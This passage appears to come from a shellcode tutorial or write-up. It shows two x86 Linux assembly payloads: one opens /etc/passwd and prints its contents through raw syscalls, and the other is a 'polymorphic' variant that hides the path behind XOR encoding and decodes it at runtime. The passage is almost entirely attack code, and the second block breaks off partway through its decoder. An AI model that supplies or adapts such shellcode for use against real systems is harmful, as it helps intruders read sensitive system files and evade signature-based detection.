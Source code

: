 ```nasm
xor ecx, ecx
int 0x80
mov esi, eax
jmp read

exit:

mov al, 0x1
xor ebx, ebx
int 0x80

read:

mov ebx, esi
mov al, 0x3
sub esp, 0x1
lea ecx, [esp]
mov dl, 0x1
int 0x80

xor ebx, ebx
cmp ebx, eax
je exit

mov al, 0x4
mov bl, 0x1
mov dl, 0x1
int 0x80

add esp, 0x1
jmp short read

two:

call one
db '/etc/passwd'
```

### Polymorphic code

```nasm
section .text

global _start

_start:

push 0xbadacd9c                 ; //etc/passwd (XOR encoded)
push 0xbfdd918c
push 0xaac891c0

xor ecx, ecx
mov cl, 3
mov edx, esp

decode:

mov eax, dword [edx]
xor eax, 0xdeadbeef             ; XOR key
mov dword [edx], eax
add edx, 0x4
loop decode

```